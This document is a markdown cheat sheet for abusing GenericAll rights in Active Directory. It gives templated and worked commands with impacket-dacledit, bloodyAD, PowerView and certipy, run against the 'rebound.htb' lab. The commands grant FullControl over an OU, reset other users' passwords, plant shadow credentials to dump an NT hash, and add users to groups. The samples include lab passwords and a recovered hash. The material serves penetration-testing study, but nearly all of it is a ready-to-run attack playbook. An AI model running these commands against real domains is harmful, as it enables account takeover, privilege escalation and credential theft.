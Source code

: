 ```yaml
---
title: "GenericAll"
date: 2024-7-12
tags: ["Shadow Credentials", "Powerview", "Credential Dumping", "AddMember", "Impacket", "Genericall", "Domain Controller", "Active Directory", "Windows"]
---
```


### Abuse #1: Change Target User Password

{{< tab set1 tab1 >}}Linux{{< /tab >}}
{{< tab set1 tab2 >}}Windows{{< /tab >}}
{{< tabcontent set1 tab1 >}}

#### 1. Add Full Control to Current User

{{< tab set1-1 tab1 active >}}impacket{{< /tab >}}{{< tab set1-1 tab2 >}}bloodyAD{{< /tab >}}
{{< tabcontent set1-1 tab1 >}}

```console
sudo ntpdate -s <DC> && impacket-dacledit -k '<DOMAIN>/<USER>:<PASSWORD>' -dc-ip <DC> -principal <USER> -target-dn 'OU=<TARGET_GROUP>,DC=<EXAMPLE>,DC=<COM>' -inheritance -action write -rights FullControl -use-ldaps
```

```console {class=sample-code}
$ impacket-dacledit -k 'rebound.htb/oorend:1GR8t@$$4u' -dc-ip 10.10.11.231 -principal oorend -target-dn 'OU=SERVICE USERS,DC=REBOUND,DC=HTB' -inheritance -action write -rights FullControl -use-ldaps
Impacket v0.12.0.dev1+20240730.164349.ae8b81d7 - Copyright 2023 Fortra

[*] NB: objects with adminCount=1 will no inherit ACEs from their parent container/OU
[*] DACL backed up to dacledit-20240923-015912.bak
[*] DACL modified successfully!
```

{{< /tabcontent >}}
{{< tabcontent set1-1 tab2 >}}

```console
# Password
bloodyAD -d <DOMAIN> -u '<USER>' -p '<PASSWORD>' --host <DC> add genericAll 'OU=<TARGET_GROUP>,DC=<EXAMPLE>,DC=<COM>' '<USER>'
```

```console {class=sample-code}
$ bloodyAD -d rebound.htb -u 'oorend' -p '1GR8t@$$4u' --host 10.10.11.231 add genericAll 'OU=SERVICE USERS,DC=REBOUND,DC=HTB' 'oorend'
[+] oorend has now GenericAll on OU=SERVICE USERS,DC=REBOUND,DC=HTB
```

{{< /tabcontent >}}

#### 2. Change Password

{{< tab set1-2 tab1 active >}}bloodyAD{{< /tab >}}
{{< tabcontent set1-2 tab1 >}}

```console
bloodyAD -d <DOMAIN> -u '<USER>' -p '<PASSWORD>' --host <DC> set password '<TARGET_USER>' '<NEW_PASSWORD>'
```

```console {class="sample-code"}
$ bloodyAD -d rebound.htb -u 'oorend' -p '1GR8t@$$4u' --host 10.10.11.231 set password 'winrm_svc' 'Test1234'
[+] Password changed successfully!
```

<small>*Ref: [bloodyAD](https://github.com/CravateRouge/bloodyAD)*</small>

{{< /tabcontent >}}
{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

#### 1. Import PowerView.ps1 

```console
. .\PowerView.ps1
```

```console {class=sample-code}
*Evil-WinRM* PS C:\programdata> . .\PowerView.ps1
```

#### 2. Change Target User Password

```console
$password = ConvertTo-SecureString <PASSWORD> -AsPlainText -Force 
```

```console {class=sample-code}
*Evil-WinRM* PS C:\programdata> $password = ConvertTo-SecureString Test1234 -AsPlainText -Force
```

```console
Set-DomainUserPassword -Identity <TARGET_USER> -AccountPassword $password
```

```console {class=sample-code}
*Evil-WinRM* PS C:\programdata> Set-DomainUserPassword -Identity superfume -AccountPassword $password
```

{{< /tabcontent >}}

---

### Abuse #2: Get Shadow Credential

{{< tab set3 tab1 >}}Linux{{< /tab >}}
{{< tabcontent set3 tab1 >}}

#### 1. Add Full Control to Current User

{{< tab set3-1 tab1 active >}}impacket{{< /tab >}}{{< tab set3-1 tab2 >}}bloodyAD{{< /tab >}}
{{< tabcontent set3-1 tab1 >}}

```console
sudo ntpdate -s <DC> && impacket-dacledit -k '<DOMAIN>/<USER>:<PASSWORD>' -dc-ip <DC> -principal <USER> -target-dn 'OU=<TARGET_GROUP>,DC=<EXAMPLE>,DC=<COM>' -inheritance -action write -rights FullControl -use-ldaps
```

```console {class="sample-code"}
$ impacket-dacledit -k 'rebound.htb/oorend:1GR8t@$$4u' -dc-ip 10.10.11.231 -principal oorend -target-dn 'OU=SERVICE USERS,DC=REBOUND,DC=HTB' -inheritance -action write -rights FullControl -use-ldaps
Impacket v0.12.0.dev1+20240730.164349.ae8b81d7 - Copyright 2023 Fortra

[*] NB: objects with adminCount=1 will no inherit ACEs from their parent container/OU
[*] DACL backed up to dacledit-20240923-015912.bak
[*] DACL modified successfully!
```

{{< /tabcontent >}}
{{< tabcontent set3-1 tab2 >}}

```console
bloodyAD -d <DOMAIN> -u '<USER>' -p '<PASSWORD>' --host <DC> add genericAll 'OU=<TARGET_GROUP>,DC=<EXAMPLE>,DC=<COM>' '<USER>'
```

```console {class="sample-code"}
$ bloodyAD -d rebound.htb -u 'oorend' -p '1GR8t@$$4u' --host 10.10.11.231 add genericAll 'OU=SERVICE USERS,DC=REBOUND,DC=HTB' 'oorend'
[+] oorend has now GenericAll on OU=SERVICE USERS,DC=REBOUND,DC=HTB
```

{{< /tabcontent >}}

#### 2. Get Shadow Credential

```console
sudo ntpdate -s <DC> && certipy-ad shadow auto -username <USER>@<DOMAIN> -password '<PASSWORD>' -k -account <TARGET_USER> -target <DC> -scheme ldap
```

```console {class="sample-code"}
$ sudo ntpdate -s dc01.rebound.htb && certipy-ad shadow auto -username oorend@rebound.htb -password '1GR8t@$$4u' -k -account winrm_svc -target dc01.rebound.htb
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Targeting user 'winrm_svc'
[*] Generating certificate
[*] Certificate generated
[*] Generating Key Credential
[*] Key Credential generated with DeviceID '22fdb427-7028-72b8-bc39-8f4674c644dd'
[*] Adding Key Credential with device ID '22fdb427-7028-72b8-bc39-8f4674c644dd' to the Key Credentials for 'winrm_svc'
[*] Successfully added Key Credential with device ID '22fdb427-7028-72b8-bc39-8f4674c644dd' to the Key Credentials for 'winrm_svc'
[*] Authenticating as 'winrm_svc' with the certificate
[*] Using principal: winrm_svc@rebound.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'winrm_svc.ccache'
[*] Trying to retrieve NT hash for 'winrm_svc'
[*] Restoring the old Key Credentials for 'winrm_svc'
[*] Successfully restored the old Key Credentials for 'winrm_svc'
[*] NT hash for 'winrm_svc': 4469650fd892e98933b4536d2e86e512
```

#### FIX: KDC_ERR_PADATA_TYPE_NOSUPP(KDC has no support for padata type)

```console
# No really a fix, need to runas administrator
gpupdate /force
```

```console {class="sample-code"}
*Evil-WinRM* PS C:\Users\Administrator\Documents> gpupdate /force
Updating policy...

Computer Policy update has completed successfully.

User Policy update has completed successfully.
```

{{< /tabcontent >}}

---

### Abuse #3 : Add User to Group

{{< tab set4 tab1 >}}Windows{{< /tab >}}
{{< tabcontent set4 tab1 >}}

#### 1. Import PowerView
```console
. .\PowerView.ps1
```

#### 2. Create a Cred Object (runas) \[Optional\]

```console
$username = '<DOMAIN>\<USER>'
```

```console
$password = ConvertTo-SecureString '<PASSWORD>' -AsPlainText -Force
```

```console
$cred = new-object -typename System.Management.Automation.PSCredential -argumentlist $username, $password
```

#### 2. Add User to Group

```console
Add-DomainGroupMember -Identity <TARGET_GROUP> -Members <USER> -Credential $cred
```

{{< /tabcontent >}}

---

### Abuse #4 : Add GenericAll to Target User over Organizational Unit (OU)

{{< tab set5 tab1 >}}Linux{{< /tab >}}
{{< tabcontent set5 tab1 >}}

```console
# Password
bloodyAD -d <DOMAIN> -u '<USER>' -p '<PASSWORD>' --host <DC> add genericAll 'OU=<TARGET_GROUP>,DC=<EXAMPLE>,DC=<COM>' '<TARGET_USER>'
```

{{< /tabcontent >}}

